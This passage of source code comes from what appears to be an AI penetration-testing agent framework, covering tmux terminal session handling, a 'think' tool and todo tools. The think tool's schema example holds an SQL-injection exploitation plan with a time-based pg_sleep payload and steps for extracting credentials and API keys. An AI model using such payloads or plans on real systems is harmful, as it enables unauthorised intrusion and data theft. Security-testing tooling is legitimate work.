        - Meta/Alt sequences: M-key (e.g., M-f, M-b) - tmux official modifier
        - Shift sequences: S-key (e.g., S-F6, S-Tab, S-Left)
        - Combined modifiers: C-S-key, C-M-key, S-M-key, etc.

        Special keys work automatically - no need to set is_input=true for keys like C-c, C-d, etc.
        These are useful for interacting with vim, emacs, REPLs, and other interactive applications.</description>
      </parameter>
      <parameter name="is_input" type="boolean" required="false">
        <description>If true, the command is sent as input to a currently running process. If false (default), the command is executed as a new bash command.
        Note: Special keys (C-c, C-d, etc.) automatically work when a process is running - you don't need to set is_input=true for them.
        Use is_input=true for regular text input to running processes.</description>
      </parameter>
      <parameter name="timeout" type="number" required="false">
        <description>Optional timeout in seconds for command execution. CAPPED AT 60 SECONDS. If not provided, uses default wait (30s). On timeout, the command keeps running and the tool returns with status 'running'. For truly long-running tasks, prefer backgrounding with '&'.</description>
      </parameter>
      <parameter name="terminal_id" type="string" required="false">
        <description>Identifier for the terminal session. Defaults to "default". Use different IDs to manage multiple concurrent terminal sessions.</description>
      </parameter>
      <parameter name="no_enter" type="boolean" required="false">
        <description>If true, don't automatically add Enter/newline after the command. Useful for:
        - Interactive prompts where you want to send keys without submitting
        - Navigation keys in full-screen applications

        Examples:
        - terminal_execute("gg", is_input=true, no_enter=true)  # Vim: go to top
        - terminal_execute("5j", is_input=true, no_enter=true)  # Vim: move down 5 lines
        - terminal_execute("i", is_input=true, no_enter=true)   # Vim: insert mode</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing:
      - content: Command output
      - exit_code: Exit code of the command (only for completed commands)
      - command: The executed command
      - terminal_id: The terminal session ID
      - status: Command status ('completed' or 'running')
      - working_dir: Current working directory after command execution</description>
    </returns>
    <notes>
  Important usage rules:
  1. PERSISTENT SESSION: The terminal maintains state between commands. Environment variables,
     current directory, and running processes persist across multiple tool calls.

  2. COMMAND EXECUTION:
     - AVOID: Long pipelines, complex bash scripts, or convoluted one-liners
     - Break complex operations into multiple simple tool calls for clarity and debugging
     - For multiple commands, prefer separate tool calls over chaining with && or ;

  3. LONG-RUNNING COMMANDS:
     - Commands never get killed automatically - they keep running in background
     - Set timeout to control how long to wait for output before returning
     - For daemons/servers or very long jobs, append '&' to run in background
     - Use empty command "" to check progress (waits for timeout period to collect output)
     - Use C-c, C-d, C-z to interrupt processes (works automatically, no is_input needed)

  4. TIMEOUT HANDLING:
     - Timeout controls how long to wait before returning current output (max 60s cap)
     - Commands are NEVER killed on timeout - they keep running
     - After timeout, you can run new commands or check progress with empty command
     - On timeout, status is 'running'; on completion, status is 'completed'

  5. MULTIPLE TERMINALS: Use different terminal_id values to run multiple concurrent sessions.

  6. INTERACTIVE PROCESSES:
     - Special keys (C-c, C-d, etc.) work automatically when a process is running
     - Use is_input=true for regular text input to running processes like:
       * Interactive shells, REPLs, or prompts
       * Long-running applications waiting for input
       * Background processes that need interaction
     - Use no_enter=true for stuff like Vim navigation, password typing, or multi-step commands

  7. WORKING DIRECTORY: The terminal tracks and returns the current working directory.
     Use absolute paths or cd commands to change directories as needed.

  8. OUTPUT HANDLING: Large outputs are automatically truncated. The tool provides
     the most relevant parts of the output for analysis.
    </notes>
    <examples>
  # Execute a simple command
  <function=terminal_execute>
  <parameter=command>ls -la</parameter>
  </function>

  <function=terminal_execute>
  <parameter=command>cd /workspace
pwd
ls -la</parameter>
  </function>

  # Run a command with custom timeout
  <function=terminal_execute>
  <parameter=command>npm install</parameter>
  <parameter=timeout>60</parameter>
  </function>

  # Check progress of running command (waits for timeout to collect output)
  <function=terminal_execute>
  <parameter=command></parameter>
  <parameter=timeout>5</parameter>
  </function>

  # Start a background service
  <function=terminal_execute>
  <parameter=command>python app.py > server.log 2>&1 &</parameter>
  </function>

  # Interact with a running process
  <function=terminal_execute>
  <parameter=command>y</parameter>
  <parameter=is_input>true</parameter>
  </function>

  # Interrupt a running process (special keys work automatically)
  <function=terminal_execute>
  <parameter=command>C-c</parameter>
  </function>

  # Send Escape key (use official tmux name)
  <function=terminal_execute>
  <parameter=command>Escape</parameter>
  <parameter=is_input>true</parameter>
  </function>

  # Use a different terminal session
  <function=terminal_execute>
  <parameter=command>python3</parameter>
  <parameter=terminal_id>python_session</parameter>
  </function>

  # Send input to Python REPL in specific session
  <function=terminal_execute>
  <parameter=command>print("Hello World")</parameter>
  <parameter=is_input>true</parameter>
  <parameter=terminal_id>python_session</parameter>
  </function>
    </examples>
  </tool>
</tools>
```

## File: `strix/tools/terminal/terminal_manager.py`
```python
import atexit
import contextlib
import threading
from typing import Any

from strix.tools.context import get_current_agent_id

from .terminal_session import TerminalSession


class TerminalManager:
    def __init__(self) -> None:
        self._sessions_by_agent: dict[str, dict[str, TerminalSession]] = {}
        self._lock = threading.Lock()
        self.default_terminal_id = "default"
        self.default_timeout = 30.0

        self._register_cleanup_handlers()

    def _get_agent_sessions(self) -> dict[str, TerminalSession]:
        agent_id = get_current_agent_id()
        with self._lock:
            if agent_id not in self._sessions_by_agent:
                self._sessions_by_agent[agent_id] = {}
            return self._sessions_by_agent[agent_id]

    def execute_command(
        self,
        command: str,
        is_input: bool = False,
        timeout: float | None = None,
        terminal_id: str | None = None,
        no_enter: bool = False,
    ) -> dict[str, Any]:
        if terminal_id is None:
            terminal_id = self.default_terminal_id

        session = self._get_or_create_session(terminal_id)

        try:
            result = session.execute(command, is_input, timeout or self.default_timeout, no_enter)

            return {
                "content": result["content"],
                "command": command,
                "terminal_id": terminal_id,
                "status": result["status"],
                "exit_code": result.get("exit_code"),
                "working_dir": result.get("working_dir"),
            }

        except RuntimeError as e:
            return {
                "error": str(e),
                "command": command,
                "terminal_id": terminal_id,
                "content": "",
                "status": "error",
                "exit_code": None,
                "working_dir": None,
            }
        except OSError as e:
            return {
                "error": f"System error: {e}",
                "command": command,
                "terminal_id": terminal_id,
                "content": "",
                "status": "error",
                "exit_code": None,
                "working_dir": None,
            }

    def _get_or_create_session(self, terminal_id: str) -> TerminalSession:
        sessions = self._get_agent_sessions()
        with self._lock:
            if terminal_id not in sessions:
                sessions[terminal_id] = TerminalSession(terminal_id)
            return sessions[terminal_id]

    def close_session(self, terminal_id: str | None = None) -> dict[str, Any]:
        if terminal_id is None:
            terminal_id = self.default_terminal_id

        sessions = self._get_agent_sessions()
        with self._lock:
            if terminal_id not in sessions:
                return {
                    "terminal_id": terminal_id,
                    "message": f"Terminal '{terminal_id}' not found",
                    "status": "not_found",
                }

            session = sessions.pop(terminal_id)

        try:
            session.close()
        except (RuntimeError, OSError) as e:
            return {
                "terminal_id": terminal_id,
                "error": f"Failed to close terminal '{terminal_id}': {e}",
                "status": "error",
            }
        else:
            return {
                "terminal_id": terminal_id,
                "message": f"Terminal '{terminal_id}' closed successfully",
                "status": "closed",
            }

    def list_sessions(self) -> dict[str, Any]:
        sessions = self._get_agent_sessions()
        with self._lock:
            session_info: dict[str, dict[str, Any]] = {}
            for tid, session in sessions.items():
                session_info[tid] = {
                    "is_running": session.is_running(),
                    "working_dir": session.get_working_dir(),
                }

        return {"sessions": session_info, "total_count": len(session_info)}

    def cleanup_agent(self, agent_id: str) -> None:
        with self._lock:
            sessions = self._sessions_by_agent.pop(agent_id, {})

        for session in sessions.values():
            with contextlib.suppress(Exception):
                session.close()

    def cleanup_dead_sessions(self) -> None:
        with self._lock:
            for sessions in self._sessions_by_agent.values():
                dead_sessions: list[str] = []
                for tid, session in sessions.items():
                    if not session.is_running():
                        dead_sessions.append(tid)

                for tid in dead_sessions:
                    session = sessions.pop(tid)
                    with contextlib.suppress(Exception):
                        session.close()

    def close_all_sessions(self) -> None:
        with self._lock:
            all_sessions: list[TerminalSession] = []
            for sessions in self._sessions_by_agent.values():
                all_sessions.extend(sessions.values())
            self._sessions_by_agent.clear()

        for session in all_sessions:
            with contextlib.suppress(Exception):
                session.close()

    def _register_cleanup_handlers(self) -> None:
        atexit.register(self.close_all_sessions)


_terminal_manager = TerminalManager()


def get_terminal_manager() -> TerminalManager:
    return _terminal_manager
```

## File: `strix/tools/terminal/terminal_session.py`
```python
import logging
import re
import time
import uuid
from enum import Enum
from pathlib import Path
from typing import Any

import libtmux


logger = logging.getLogger(__name__)


class BashCommandStatus(Enum):
    CONTINUE = "continue"
    COMPLETED = "completed"
    NO_CHANGE_TIMEOUT = "no_change_timeout"
    HARD_TIMEOUT = "hard_timeout"


def _remove_command_prefix(command_output: str, command: str) -> str:
    return command_output.lstrip().removeprefix(command.lstrip()).lstrip()


class TerminalSession:
    POLL_INTERVAL = 0.5
    HISTORY_LIMIT = 10_000
    PS1_END = "]$ "

    def __init__(self, session_id: str, work_dir: str = "/workspace") -> None:
        self.session_id = session_id
        self.work_dir = str(Path(work_dir).resolve())
        self._closed = False
        self._cwd = self.work_dir

        self.server: libtmux.Server | None = None
        self.session: libtmux.Session | None = None
        self.window: libtmux.Window | None = None
        self.pane: libtmux.Pane | None = None

        self.prev_status: BashCommandStatus | None = None
        self.prev_output: str = ""
        self._initialized = False

        self.initialize()

    @property
    def PS1(self) -> str:  # noqa: N802
        return r"[STRIX_$?]$ "

    @property
    def PS1_PATTERN(self) -> str:  # noqa: N802
        return r"\[STRIX_(\d+)\]"

    def initialize(self) -> None:
        self.server = libtmux.Server()

        session_name = f"strix-{self.session_id}-{uuid.uuid4()}"
        self.session = self.server.new_session(
            session_name=session_name,
            start_directory=self.work_dir,
            kill_session=True,
            x=120,
            y=30,
        )

        self.session.set_option("history-limit", str(self.HISTORY_LIMIT))
        self.session.history_limit = self.HISTORY_LIMIT

        _initial_window = self.session.active_window
        self.window = self.session.new_window(
            window_name="bash",
            window_shell="/bin/bash",
            start_directory=self.work_dir,
        )
        self.pane = self.window.active_pane
        _initial_window.kill()

        self.pane.send_keys(f'export PROMPT_COMMAND=\'export PS1="{self.PS1}"\'; export PS2=""')
        time.sleep(0.1)
        self._clear_screen()

        self.prev_status = None
        self.prev_output = ""
        self._closed = False

        self._cwd = str(Path(self.work_dir).resolve())
        self._initialized = True

        assert self.server is not None
        assert self.session is not None
        assert self.window is not None
        assert self.pane is not None

    def _get_pane_content(self) -> str:
        if not self.pane:
            raise RuntimeError("Terminal session not properly initialized")
        return "\n".join(
            line.rstrip() for line in self.pane.cmd("capture-pane", "-J", "-pS", "-").stdout
        )

    def _clear_screen(self) -> None:
        if not self.pane:
            raise RuntimeError("Terminal session not properly initialized")
        self.pane.send_keys("C-l", enter=False)
        time.sleep(0.1)
        self.pane.cmd("clear-history")

    def _is_control_key(self, command: str) -> bool:
        return (
            (command.startswith("C-") and len(command) >= 3)
            or (command.startswith("^") and len(command) >= 2)
            or (command.startswith("S-") and len(command) >= 3)
            or (command.startswith("M-") and len(command) >= 3)
        )

    def _is_function_key(self, command: str) -> bool:
        if not command.startswith("F") or len(command) > 3:
            return False
        try:
            num_part = command[1:]
            return num_part.isdigit() and 1 <= int(num_part) <= 12
        except (ValueError, IndexError):
            return False

    def _is_navigation_or_special_key(self, command: str) -> bool:
        navigation_keys = {"Up", "Down", "Left", "Right", "Home", "End"}
        special_keys = {"BSpace", "BTab", "DC", "Enter", "Escape", "IC", "Space", "Tab"}
        page_keys = {"NPage", "PageDown", "PgDn", "PPage", "PageUp", "PgUp"}

        return command in navigation_keys or command in special_keys or command in page_keys

    def _is_complex_modifier_key(self, command: str) -> bool:
        return "-" in command and any(
            command.startswith(prefix)
            for prefix in ["C-S-", "C-M-", "S-M-", "M-S-", "M-C-", "S-C-"]
        )

    def _is_special_key(self, command: str) -> bool:
        _command = command.strip()

        if not _command:
            return False

        return (
            self._is_control_key(_command)
            or self._is_function_key(_command)
            or self._is_navigation_or_special_key(_command)
            or self._is_complex_modifier_key(_command)
        )

    def _matches_ps1_metadata(self, content: str) -> list[re.Match[str]]:
        return list(re.finditer(self.PS1_PATTERN + r"\]\$ ", content))

    def _get_command_output(
        self,
        command: str,
        raw_command_output: str,
        continue_prefix: str = "",
    ) -> str:
        if self.prev_output:
            command_output = raw_command_output.removeprefix(self.prev_output)
            if continue_prefix:
                command_output = continue_prefix + command_output
        else:
            command_output = raw_command_output
        self.prev_output = raw_command_output
        command_output = _remove_command_prefix(command_output, command)
        return command_output.rstrip()

    def _combine_outputs_between_matches(
        self,
        pane_content: str,
        ps1_matches: list[re.Match[str]],
        get_content_before_last_match: bool = False,
    ) -> str:
        if len(ps1_matches) == 1:
            if get_content_before_last_match:
                return pane_content[: ps1_matches[0].start()]
            return pane_content[ps1_matches[0].end() + 1 :]
        if len(ps1_matches) == 0:
            return pane_content

        combined_output = ""
        for i in range(len(ps1_matches) - 1):
            output_segment = pane_content[ps1_matches[i].end() + 1 : ps1_matches[i + 1].start()]
            combined_output += output_segment + "\n"
        combined_output += pane_content[ps1_matches[-1].end() + 1 :]
        return combined_output

    def _extract_exit_code_from_matches(self, ps1_matches: list[re.Match[str]]) -> int | None:
        if not ps1_matches:
            return None

        last_match = ps1_matches[-1]
        try:
            return int(last_match.group(1))
        except (ValueError, IndexError):
            return None

    def _handle_empty_command(
        self,
        cur_pane_output: str,
        ps1_matches: list[re.Match[str]],
        is_command_running: bool,
        timeout: float,
    ) -> dict[str, Any]:
        if not is_command_running:
            raw_command_output = self._combine_outputs_between_matches(cur_pane_output, ps1_matches)
            command_output = self._get_command_output("", raw_command_output)
            return {
                "content": command_output,
                "status": "completed",
                "exit_code": 0,
                "working_dir": self._cwd,
            }

        start_time = time.time()
        last_pane_output = cur_pane_output

        while True:
            cur_pane_output = self._get_pane_content()
            ps1_matches = self._matches_ps1_metadata(cur_pane_output)

            if cur_pane_output.rstrip().endswith(self.PS1_END.rstrip()) or len(ps1_matches) > 0:
                exit_code = self._extract_exit_code_from_matches(ps1_matches)
                raw_command_output = self._combine_outputs_between_matches(
                    cur_pane_output, ps1_matches
                )
                command_output = self._get_command_output("", raw_command_output)
                self.prev_status = BashCommandStatus.COMPLETED
                self.prev_output = ""
                self._ready_for_next_command()
                return {
                    "content": command_output,
                    "status": "completed",
                    "exit_code": exit_code or 0,
                    "working_dir": self._cwd,
                }

            elapsed_time = time.time() - start_time
            if elapsed_time >= timeout:
                raw_command_output = self._combine_outputs_between_matches(
                    cur_pane_output, ps1_matches
                )
                command_output = self._get_command_output("", raw_command_output)
                return {
                    "content": command_output
                    + f"\n[Command still running after {timeout}s - showing output so far]",
                    "status": "running",
                    "exit_code": None,
                    "working_dir": self._cwd,
                }

            if cur_pane_output != last_pane_output:
                last_pane_output = cur_pane_output

            time.sleep(self.POLL_INTERVAL)

    def _handle_input_command(
        self, command: str, no_enter: bool, is_command_running: bool
    ) -> dict[str, Any]:
        if not is_command_running:
            return {
                "content": "No command is currently running. Cannot send input.",
                "status": "error",
                "exit_code": None,
                "working_dir": self._cwd,
            }

        if not self.pane:
            raise RuntimeError("Terminal session not properly initialized")

        is_special_key = self._is_special_key(command)
        should_add_enter = not is_special_key and not no_enter
        self.pane.send_keys(command, enter=should_add_enter)

        time.sleep(2)
        cur_pane_output = self._get_pane_content()
        ps1_matches = self._matches_ps1_metadata(cur_pane_output)
        raw_command_output = self._combine_outputs_between_matches(cur_pane_output, ps1_matches)
        command_output = self._get_command_output(command, raw_command_output)

        is_still_running = not (
            cur_pane_output.rstrip().endswith(self.PS1_END.rstrip()) or len(ps1_matches) > 0
        )

        if is_still_running:
            return {
                "content": command_output,
                "status": "running",
                "exit_code": None,
                "working_dir": self._cwd,
            }

        exit_code = self._extract_exit_code_from_matches(ps1_matches)
        self.prev_status = BashCommandStatus.COMPLETED
        self.prev_output = ""
        self._ready_for_next_command()
        return {
            "content": command_output,
            "status": "completed",
            "exit_code": exit_code or 0,
            "working_dir": self._cwd,
        }

    def _execute_new_command(self, command: str, no_enter: bool, timeout: float) -> dict[str, Any]:
        if not self.pane:
            raise RuntimeError("Terminal session not properly initialized")

        initial_pane_output = self._get_pane_content()
        initial_ps1_matches = self._matches_ps1_metadata(initial_pane_output)
        initial_ps1_count = len(initial_ps1_matches)

        start_time = time.time()
        last_pane_output = initial_pane_output

        is_special_key = self._is_special_key(command)
        should_add_enter = not is_special_key and not no_enter
        self.pane.send_keys(command, enter=should_add_enter)

        while True:
            cur_pane_output = self._get_pane_content()
            ps1_matches = self._matches_ps1_metadata(cur_pane_output)
            current_ps1_count = len(ps1_matches)

            if cur_pane_output != last_pane_output:
                last_pane_output = cur_pane_output

            if current_ps1_count > initial_ps1_count or cur_pane_output.rstrip().endswith(
                self.PS1_END.rstrip()
            ):
                exit_code = self._extract_exit_code_from_matches(ps1_matches)

                get_content_before_last_match = bool(len(ps1_matches) == 1)
                raw_command_output = self._combine_outputs_between_matches(
                    cur_pane_output,
                    ps1_matches,
                    get_content_before_last_match=get_content_before_last_match,
                )

                command_output = self._get_command_output(command, raw_command_output)
                self.prev_status = BashCommandStatus.COMPLETED
                self.prev_output = ""
                self._ready_for_next_command()

                return {
                    "content": command_output,
                    "status": "completed",
                    "exit_code": exit_code or 0,
                    "working_dir": self._cwd,
                }

            elapsed_time = time.time() - start_time
            if elapsed_time >= timeout:
                raw_command_output = self._combine_outputs_between_matches(
                    cur_pane_output, ps1_matches
                )
                command_output = self._get_command_output(
                    command,
                    raw_command_output,
                    continue_prefix="[Below is the output of the previous command.]\n",
                )
                self.prev_status = BashCommandStatus.CONTINUE

                timeout_msg = (
                    f"\n[Command still running after {timeout}s - showing output so far. "
                    "Use C-c to interrupt if needed.]"
                )
                return {
                    "content": command_output + timeout_msg,
                    "status": "running",
                    "exit_code": None,
                    "working_dir": self._cwd,
                }

            time.sleep(self.POLL_INTERVAL)

    def execute(
        self, command: str, is_input: bool = False, timeout: float = 10.0, no_enter: bool = False
    ) -> dict[str, Any]:
        if not self._initialized:
            raise RuntimeError("Bash session is not initialized")

        cur_pane_output = self._get_pane_content()
        ps1_matches = self._matches_ps1_metadata(cur_pane_output)
        is_command_running = not (
            cur_pane_output.rstrip().endswith(self.PS1_END.rstrip()) or len(ps1_matches) > 0
        )

        if command.strip() == "":
            return self._handle_empty_command(
                cur_pane_output, ps1_matches, is_command_running, timeout
            )

        is_special_key = self._is_special_key(command)

        if is_input:
            return self._handle_input_command(command, no_enter, is_command_running)

        if is_special_key and is_command_running:
            return self._handle_input_command(command, no_enter, is_command_running)

        if is_command_running:
            return {
                "content": (
                    "A command is already running. Use is_input=true to send input to it, "
                    "or interrupt it first (e.g., with C-c)."
                ),
                "status": "error",
                "exit_code": None,
                "working_dir": self._cwd,
            }

        return self._execute_new_command(command, no_enter, timeout)

    def _ready_for_next_command(self) -> None:
        self._clear_screen()

    def is_running(self) -> bool:
        if self._closed or not self.session:
            return False
        try:
            return self.session.id in [s.id for s in self.server.sessions] if self.server else False
        except (AttributeError, OSError) as e:
            logger.debug("Error checking if session is running: %s", e)
            return False

    def get_working_dir(self) -> str:
        return self._cwd

    def close(self) -> None:
        if self._closed:
            return

        if self.session:
            try:
                self.session.kill()
            except (AttributeError, OSError) as e:
                logger.debug("Error closing terminal session: %s", e)

        self._closed = True
        self.server = None
        self.session = None
        self.window = None
        self.pane = None
```

## File: `strix/tools/terminal/__init__.py`
```python
from .terminal_actions import terminal_execute


__all__ = ["terminal_execute"]
```

## File: `strix/tools/thinking/thinking_actions.py`
```python
from typing import Any

from strix.tools.registry import register_tool


@register_tool(sandbox_execution=False)
def think(thought: str) -> dict[str, Any]:
    try:
        if not thought or not thought.strip():
            return {"success": False, "message": "Thought cannot be empty"}

        return {
            "success": True,
            "message": f"Thought recorded successfully with {len(thought.strip())} characters",
        }

    except (ValueError, TypeError) as e:
        return {"success": False, "message": f"Failed to record thought: {e!s}"}
```

## File: `strix/tools/thinking/thinking_actions_schema.xml`
```xml
<tools>
  <tool name="think">
    <description>Use the tool to think about something. It will not obtain new information or change the
  database. Use it when complex reasoning or some cache memory is needed.</description>
    <details>This tool creates dedicated space for structured thinking during complex tasks,
  particularly useful for:
  - Tool output analysis: When you need to carefully process the output of previous tool calls
  - Policy-heavy environments: When you need to follow detailed guidelines and verify compliance
  - Sequential decision making: When each action builds on previous ones and mistakes are costly
  - Multi-step problem solving: When you need to break down complex problems into manageable steps</details>
    <parameters>
      <parameter name="thought" type="string" required="true">
        <description>The thought or reasoning to record</description>
      </parameter>
    </parameters>
    <returns type="Dict[str, Any]">
      <description>Response containing: - success: Whether the thought was recorded successfully - message: Confirmation message with character count or error details</description>
    </returns>
    <examples>
  # Planning and strategy
  <function=think>
  <parameter=thought>Analysis of the login endpoint SQL injection:

Current State:
- Confirmed SQL injection in POST /api/v1/auth/login
- Backend database is PostgreSQL 14.2
- Application user has full CRUD privileges

Exploitation Strategy:
1. First, enumerate database structure using UNION-based injection
2. Extract user table schema and credentials
3. Check for password hashing (MD5? bcrypt?)
4. Look for admin accounts and API keys

Risk Assessment:
- CVSS Base Score: 9.8 (Critical)
- Attack Vector: Network (remotely exploitable)
- Privileges Required: None
- Impact: Full database compromise

Evidence Collected:
- Error-based injection confirms PostgreSQL
- Time-based payload: admin' AND pg_sleep(5)-- caused 5s delay
- UNION injection reveals 8 columns in users table

Next Actions:
1. Write PoC exploit script in Python
2. Extract password hashes for analysis
3. Create vulnerability report with full details
4. Test if same vulnerability exists in other endpoints</parameter>
  </function>
    </examples>
  </tool>
</tools>
```

## File: `strix/tools/thinking/__init__.py`
```python
from .thinking_actions import think


__all__ = ["think"]
```

## File: `strix/tools/todo/todo_actions.py`
```python
import json
import uuid
from datetime import UTC, datetime
from typing import Any

from strix.tools.registry import register_tool


VALID_PRIORITIES = ["low", "normal", "high", "critical"]
VALID_STATUSES = ["pending", "in_progress", "done"]

_todos_storage: dict[str, dict[str, dict[str, Any]]] = {}


def _get_agent_todos(agent_id: str) -> dict[str, dict[str, Any]]:
    if agent_id not in _todos_storage:
        _todos_storage[agent_id] = {}
    return _todos_storage[agent_id]


def _normalize_priority(priority: str | None, default: str = "normal") -> str:
    candidate = (priority or default or "normal").lower()
    if candidate not in VALID_PRIORITIES:
        raise ValueError(f"Invalid priority. Must be one of: {', '.join(VALID_PRIORITIES)}")
    return candidate


def _sorted_todos(agent_id: str) -> list[dict[str, Any]]:
    agent_todos = _get_agent_todos(agent_id)

    todos_list: list[dict[str, Any]] = []
    for todo_id, todo in agent_todos.items():
        entry = todo.copy()
        entry["todo_id"] = todo_id
        todos_list.append(entry)

    priority_order = {"critical": 0, "high": 1, "normal": 2, "low": 3}
    status_order = {"done": 0, "in_progress": 1, "pending": 2}

    todos_list.sort(
        key=lambda x: (
            status_order.get(x.get("status", "pending"), 99),
            priority_order.get(x.get("priority", "normal"), 99),
            x.get("created_at", ""),
        )
    )
    return todos_list


def _normalize_todo_ids(raw_ids: Any) -> list[str]:
    if raw_ids is None:
        return []

    if isinstance(raw_ids, str):
        stripped = raw_ids.strip()
        if not stripped:
            return []
        try:
            data = json.loads(stripped)
        except json.JSONDecodeError:
            data = stripped.split(",") if "," in stripped else [stripped]
        if isinstance(data, list):
            return [str(item).strip() for item in data if str(item).strip()]
        return [str(data).strip()]

    if isinstance(raw_ids, list):
        return [str(item).strip() for item in raw_ids if str(item).strip()]

    return [str(raw_ids).strip()]


def _normalize_bulk_updates(raw_updates: Any) -> list[dict[str, Any]]:
    if raw_updates is None:
        return []

    data = raw_updates
    if isinstance(raw_updates, str):
        stripped = raw_updates.strip()
        if not stripped:
            return []
        try:
            data = json.loads(stripped)
        except json.JSONDecodeError as e:
            raise ValueError("Updates must be valid JSON") from e

    if isinstance(data, dict):
        data = [data]

    if not isinstance(data, list):
        raise TypeError("Updates must be a list of update objects")

    normalized: list[dict[str, Any]] = []
    for item in data:
        if not isinstance(item, dict):
            raise TypeError("Each update must be an object with todo_id")

        todo_id = item.get("todo_id") or item.get("id")
        if not todo_id:
            raise ValueError("Each update must include 'todo_id'")

        normalized.append(
            {
                "todo_id": str(todo_id).strip(),
                "title": item.get("title"),
                "description": item.get("description"),
                "priority": item.get("priority"),
                "status": item.get("status"),
            }
        )

    return normalized


def _normalize_bulk_todos(raw_todos: Any) -> list[dict[str, Any]]:
    if raw_todos is None:
        return []

    data = raw_todos
    if isinstance(raw_todos, str):
        stripped = raw_todos.strip()
        if not stripped:
            return []
        try:
            data = json.loads(stripped)
        except json.JSONDecodeError:
            entries = [line.strip(" -*\t") for line in stripped.splitlines() if line.strip(" -*\t")]
            return [{"title": entry} for entry in entries]

    if isinstance(data, dict):
        data = [data]

    if not isinstance(data, list):
        raise TypeError("Todos must be provided as a list, dict, or JSON string")

    normalized: list[dict[str, Any]] = []
    for item in data:
        if isinstance(item, str):
            title = item.strip()
            if title:
                normalized.append({"title": title})
            continue

        if not isinstance(item, dict):
            raise TypeError("Each todo entry must be a string or object with a title")

        title = item.get("title", "")
        if not isinstance(title, str) or not title.strip():
            raise ValueError("Each todo entry must include a non-empty 'title'")

        normalized.append(
            {
                "title": title.strip(),
                "description": (item.get("description") or "").strip() or None,
                "priority": item.get("priority"),
            }
        )

    return normalized


@register_tool(sandbox_execution=False)
def create_todo(
    agent_state: Any,
    title: str | None = None,
    description: str | None = None,
    priority: str = "normal",
    todos: Any | None = None,
) -> dict[str, Any]:
    try:
        agent_id = agent_state.agent_id
        default_priority = _normalize_priority(priority)

        tasks_to_create: list[dict[str, Any]] = []

        if todos is not None:
            tasks_to_create.extend(_normalize_bulk_todos(todos))

        if title and title.strip():
            tasks_to_create.append(
                {
                    "title": title.strip(),
                    "description": description.strip() if description else None,
                    "priority": default_priority,
                }
            )

        if not tasks_to_create:
            return {
                "success": False,
                "error": "Provide a title or 'todos' list to create.",
                "todo_id": None,
            }

        agent_todos = _get_agent_todos(agent_id)
        created: list[dict[str, Any]] = []

        for task in tasks_to_create:
            task_priority = _normalize_priority(task.get("priority"), default_priority)
            todo_id = str(uuid.uuid4())[:6]
            timestamp = datetime.now(UTC).isoformat()

            todo = {
                "title": task["title"],
                "description": task.get("description"),
                "priority": task_priority,
                "status": "pending",
                "created_at": timestamp,
                "updated_at": timestamp,
                "completed_at": None,
            }

            agent_todos[todo_id] = todo
            created.append(
                {
                    "todo_id": todo_id,
                    "title": task["title"],
                    "priority": task_priority,
                }
            )

    except (ValueError, TypeError) as e:
        return {"success": False, "error": f"Failed to create todo: {e}", "todo_id": None}
    else:
        todos_list = _sorted_todos(agent_id)

        response: dict[str, Any] = {
            "success": True,
            "created": created,
            "count": len(created),
            "todos": todos_list,
            "total_count": len(todos_list),
        }
        return response


@register_tool(sandbox_execution=False)
def list_todos(
    agent_state: Any,
    status: str | None = None,
    priority: str | None = None,
) -> dict[str, Any]:
    try:
        agent_id = agent_state.agent_id
        agent_todos = _get_agent_todos(agent_id)

        status_filter = status.lower() if isinstance(status, str) else None
        priority_filter = priority.lower() if isinstance(priority, str) else None

        todos_list = []
        for todo_id, todo in agent_todos.items():
            if status_filter and todo.get("status") != status_filter:
                continue

            if priority_filter and todo.get("priority") != priority_filter:
                continue

            todo_with_id = todo.copy()
            todo_with_id["todo_id"] = todo_id
            todos_list.append(todo_with_id)

        priority_order = {"critical": 0, "high": 1, "normal": 2, "low": 3}
        status_order = {"done": 0, "in_progress": 1, "pending": 2}

        todos_list.sort(
            key=lambda x: (
                status_order.get(x.get("status", "pending"), 99),
                priority_order.get(x.get("priority", "normal"), 99),
                x.get("created_at", ""),
            )
        )

        summary_counts = {
            "pending": 0,
            "in_progress": 0,
            "done": 0,
        }
        for todo in todos_list:
            status_value = todo.get("status", "pending")
            if status_value not in summary_counts:
                summary_counts[status_value] = 0
            summary_counts[status_value] += 1

        return {
            "success": True,
            "todos": todos_list,
            "total_count": len(todos_list),
            "summary": summary_counts,
        }

    except (ValueError, TypeError) as e:
        return {
            "success": False,
            "error": f"Failed to list todos: {e}",
            "todos": [],
            "total_count": 0,
            "summary": {"pending": 0, "in_progress": 0, "done": 0},
        }


def _apply_single_update(
    agent_todos: dict[str, dict[str, Any]],
    todo_id: str,
    title: str | None = None,
    description: str | None = None,
    priority: str | None = None,
    status: str | None = None,
) -> dict[str, Any] | None:
    if todo_id not in agent_todos:
        return {"todo_id": todo_id, "error": f"Todo with ID '{todo_id}' not found"}

    todo = agent_todos[todo_id]

    if title is not None:
        if not title.strip():
            return {"todo_id": todo_id, "error": "Title cannot be empty"}
        todo["title"] = title.strip()

    if description is not None:
        todo["description"] = description.strip() if description else None

    if priority is not None:
        try:
            todo["priority"] = _normalize_priority(priority, str(todo.get("priority", "normal")))
        except ValueError as exc:
            return {"todo_id": todo_id, "error": str(exc)}

    if status is not None:
        status_candidate = status.lower()
        if status_candidate not in VALID_STATUSES:
            return {
                "todo_id": todo_id,
                "error": f"Invalid status. Must be one of: {', '.join(VALID_STATUSES)}",
            }
        todo["status"] = status_candidate
        if status_candidate == "done":
            todo["completed_at"] = datetime.now(UTC).isoformat()
        else:
            todo["completed_at"] = None

    todo["updated_at"] = datetime.now(UTC).isoformat()
    return None


@register_tool(sandbox_execution=False)
def update_todo(
    agent_state: Any,
    todo_id: str | None = None,
    title: str | None = None,
    description: str | None = None,
    priority: str | None = None,
    status: str | None = None,
    updates: Any | None = None,
) -> dict[str, Any]:
    try:
        agent_id = agent_state.agent_id
        agent_todos = _get_agent_todos(agent_id)

        updates_to_apply: list[dict[str, Any]] = []

        if updates is not None:
            updates_to_apply.extend(_normalize_bulk_updates(updates))

        if todo_id is not None:
            updates_to_apply.append(
                {
                    "todo_id": todo_id,
                    "title": title,
                    "description": description,
                    "priority": priority,
                    "status": status,
                }
            )

        if not updates_to_apply:
            return {
                "success": False,
                "error": "Provide todo_id or 'updates' list to update.",
            }

        updated: list[str] = []
        errors: list[dict[str, Any]] = []

        for update in updates_to_apply:
            error = _apply_single_update(
                agent_todos,
                update["todo_id"],
                update.get("title"),
                update.get("description"),
                update.get("priority"),
                update.get("status"),
            )
            if error:
                errors.append(error)
            else:
